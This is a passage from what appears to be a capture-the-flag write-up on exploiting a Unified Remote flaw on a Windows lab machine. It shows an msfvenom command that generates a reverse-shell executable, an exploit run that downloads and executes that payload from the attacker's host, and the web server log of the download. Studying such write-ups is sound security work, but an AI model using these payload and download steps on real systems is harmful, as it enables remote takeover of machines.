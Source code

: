 

It's using `certutil` to download a file from the given IP, saving it in
`C:\windows\temp`, and then running it.

#### Generate Payload

Because I need to run something that will give a reverse shell without
arguments, I'll just use `msfvenom` to generate a simple reverse shell
binary:



    oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f exe -o rev.exe 
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe



Even though I noted that Unified Remote was running out of
`Program File (x86)` (and thus a 32-bit process), I can still use a
64-bit payload as the system is 64-bit and the exploit just calls the
payload, rather than loading it in the context of the exploited
application.

#### Exploit - Fail

I'll run the script:



    oxdf@hacky$ python3 unified_remote_rce.py 127.0.0.1 10.10.14.6 rev.exe
    [+] Connecting to target...
    [+] Popping Start Menu
    [+] Opening CMD
    [+] *Super Fast Hacker Typing*
    [+] Downloading Payload
    [+] Done! Check listener?



When it gets to "Downloading Payload", there's a request at my listening
Python webserver:



    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.115 - - [28/Jan/2022 16:53:31] "GET /rev.exe HTTP/1.1" 200 -



But I don't get a callback at `nc`.

#### Exploit Success

`C:\Windows\Temp` can be locked down in a modern Windows system, so it's
possible that I can't write a payload there. I'll update the script to
write to `C:\programdata` instead:
